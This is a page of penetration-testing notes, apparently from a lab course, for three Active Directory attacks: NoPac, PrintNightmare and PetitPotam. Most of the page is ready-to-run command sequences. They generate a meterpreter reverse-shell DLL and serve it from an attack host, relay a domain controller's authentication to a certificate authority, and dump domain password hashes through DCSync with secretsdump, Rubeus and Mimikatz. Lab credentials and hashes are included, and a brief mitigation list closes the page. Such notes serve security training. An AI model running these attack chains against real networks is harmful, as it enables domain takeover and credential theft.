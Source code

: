 
- [CVEs](#cves)
    - [NoPac (SamAccountName Spoofing)](#nopac-samaccountname-spoofing)
    - [PrintNightmare](#printnightmare)
    - [PetitPotam (MS-EFSRPC)](#petitpotam-ms-efsrpc)
        - [PetitPotam Mitigations](#petitpotam-mitigations)




# CVEs
## NoPac (SamAccountName Spoofing)
- You're tricking the system into treating a new computer (added by you) as if it's a Domain Controller (DC), which is a very important system in the network.
- How does it work?

    - Normally, users can add a few computers to the domain.
    - When adding a new computer, you rename it to mimic the name of an existing Domain Controller (its SamAccountName).
    - The system gets confused because it sees the new computer and the DC as the same, due to the name match.
    - When you request Kerberos tickets, The system mistakenly gives you tickets for the Domain Controller instead of your new computer.


- We can use this [tool](https://github.com/Ridter/noPac) to perform the attack

> [!IMPORTANT]
> In some environments, an astute sysadmin may set the `ms-DS-MachineAccountQuota` value to 0. 
> If this is the case, the attack will fail because our user will not have the rights to add a new machine account. Setting this to 0 can prevent quite a few AD attacks.


```bash
# Scanning for NoPac
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Running NoPac & Getting a Shell
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# Using noPac to DCSync the Built-in Administrator Account
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator

```

## PrintNightmare
- PrintNightmare is the nickname given to two vulnerabilities (CVE-2021-34527 and CVE-2021-1675) found in the Print Spooler service that runs on all Windows operating systems.

- Using cube0x0's exploit:

```bash
# Cloning the Exploit
git clone https://github.com/cube0x0/CVE-2021-1675.git

```

- For this exploit to work successfully, we will need to use cube0x0's version of Impacket. We may need to uninstall the version of Impacket on our attack host and install cube0x0's

```bash
# Install cube0x0's Version of Impacket
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

```
- We can use rpcdump.py to see if Print System Asynchronous Protocol and Print System Remote Protocol are exposed on the target.

```bash
# Enumerating for MS-RPRN
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generating a DLL Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Creating a Share with smbserver.py
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Configuring & Starting MSF multi/handler
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 

# Running the Exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'

```

## PetitPotam (MS-EFSRPC)
- An attacker coerces a Domain Controller into proving its identity to another system.
- What does the attacker do?
    - The attacker sends specially crafted messages to the DC over port 445.
    - This tricks the DC into connecting to another system and trying to authenticate using NTLM (a Windows authentication method).
    - The attacker intercepts and relays this authentication to a Certificate Authority (CA) system.

- **Attack steps**
1. Start `ntlmrelayx.py` in one window on our attack host, specifying the Web Enrollment URL for the CA host and using either the KerberosAuthentication or DomainController AD CS template.If we didn't know the location of the CA, we could use a tool such as [certi](https://github.com/zer1t0/certi) to attempt to locate it.
```bash
# Starting ntlmrelayx.py
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

```
2. In another window, we can run the tool PetitPotam.py. We run this tool with the command `python3 PetitPotam.py <attack host IP> <Domain Controller IP>` to attempt to coerce the Domain Controller to authenticate to our host where ntlmrelayx.py is running.

> [!IMPORTANT]
> There is an executable version of this tool that can be run from a Windows host. The authentication trigger has also been added to Mimikatz and can be run as follows using the encrypting file system (EFS) module: `misc::efs /server:<Domain Controller> /connect:<ATTACK HOST>`. There is also a PowerShell implementation of the tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1).

```bash
# Running PetitPotam.py
python3 PetitPotam.py 172.16.5.225 172.16.5.5
```
3. Back in our other window, we will see a successful login request and obtain the base64 encoded certificate for the Domain Controller if the attack is successful.

4. Next, we can take this base64 certificate and use `gettgtpkinit.py` to request a Ticket-Granting-Ticket (TGT) for the domain controller.

```bash
# Requesting a TGT Using gettgtpkinit.py

python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01\$ -pfx-base64 MIIStQIBAzCCEn8GCSqGSI...SNIP...CKBdGmY= dc01.ccache
```

5. The TGT requested above was saved down to the dc01.ccache file, which we use to set the KRB5CCNAME environment variable, so our attack host uses this file for Kerberos authentication attempts.
```bash
# Setting the KRB5CCNAME Environment Variable
export KRB5CCNAME=dc01.ccache
```

6. We can then use this TGT with secretsdump.py to perform a DCSYnc and retrieve one or all of the NTLM password hashes for the domain.

```bash
# Using Domain Controller TGT to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL

```

7. Confirming Admin Access to the Domain Controller
```bash
crackmapexec smb 172.16.5.5 -u administrator -H 88ad09182de639ccc6579eb0849751cf
```

- **Alternatives**:
1. Once we have the TGT for our target. Using the tool `getnthash.py` from PKINITtools we could request the NT hash for our target host/user by using Kerberos U2U to submit a TGS request with the Privileged Attribute Certificate (PAC) which contains the NT hash for the target. This can be decrypted with the AS-REP encryption key we obtained when requesting the TGT earlier.
```bash
# Submitting a TGS Request for Ourselves Using getnthash.py

python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```

2. We can then use this hash to perform a DCSync with secretsdump.py using the `-hashes` flag.
```bash
# Using Domain Controller NTLM Hash to DCSync
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba


```

2. Alternatively, once we obtain the base64 certificate via ntlmrelayx.py, we could use the certificate with the Rubeus tool on a Windows attack host to request a TGT ticket and perform a pass-the-ticket (PTT) attack all at once.
```powershell
# Requesting TGT and Performing PTT with DC01$ Machine Account
PS C:\Tools> .\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /certificate:MIIStQIBAzC...SNIP...IkHS2vJ51Ry4= /ptt

# We can then type klist to confirm that the ticket is in memory.
PS C:\Tools> klist

```
- Again, since Domain Controllers have replication privileges in the domain, we can use the pass-the-ticket to perform a DCSync attack using Mimikatz from our Windows attack host.
```powershell
# Performing DCSync with Mimikatz
mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt

```

### PetitPotam Mitigations

- To prevent NTLM relay attacks, use Extended Protection for Authentication along with enabling Require SSL to only allow HTTPS connections for the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services
- Disabling NTLM authentication for Domain Controllers
- Disabling NTLM on AD CS servers using Group Policy
- Disabling NTLM for IIS on AD CS servers where the Certificate Authority Web Enrollment and Certificate Enrollment Web Service services are in use